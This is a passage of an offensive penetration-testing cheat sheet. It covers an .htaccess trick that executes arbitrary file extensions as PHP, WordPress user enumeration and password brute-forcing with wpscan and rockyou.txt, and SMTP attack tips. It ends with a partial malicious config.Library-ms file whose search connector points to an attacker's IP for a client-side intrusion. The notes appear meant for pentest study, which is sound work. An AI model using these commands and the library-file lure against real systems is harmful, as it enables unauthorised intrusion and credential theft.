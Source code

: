 ```
 AddType application/x-httpd-php .anything 
 ```


Bypass methods for upload protection: 
\- [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass](#https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

\- [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/file-upload-bypass](#https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/file-upload-bypass)


More on that here: [https://book.hacktricks.xyz/pentesting-web/file-upload](#https://book.hacktricks.xyz/pentesting-web/file-upload)


##### Wordpress 

Enumerate **plugins**, **versions**and **themes**:

```
 wpscan --url {URL} 
 ```


Enumerate **users**:

```
 wpscan --url {URL} -e u 
 ```


**Bruteforce**using discovered users:

```
 wpscan --url {url} -U users.txt -P /usr/share/wordlist/rockyou.txt
# this will use XMLRPC.PHP 
 ```


##### STUCK? 

\- Dirbust one more time, each directory found in particular
\- Dirbust by extensions \(ex\.: PHP\)
\- Try using POST params as GET

#### SMTP 

We can use **Evolution**as a **SMTP UI client**\.

\- Check the version, some exim versions might be VULNERABLE\.
\- Check for **username enumeration**

This might be a sign that we can trigger initial intrusion using a client\-side attack
We can create a **config\.Library\-ms**

```
 <?xml version="1.0" encoding="UTF-8"?>
<libraryDescription
xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://{Our IP}</url>
</simpleLocation>
```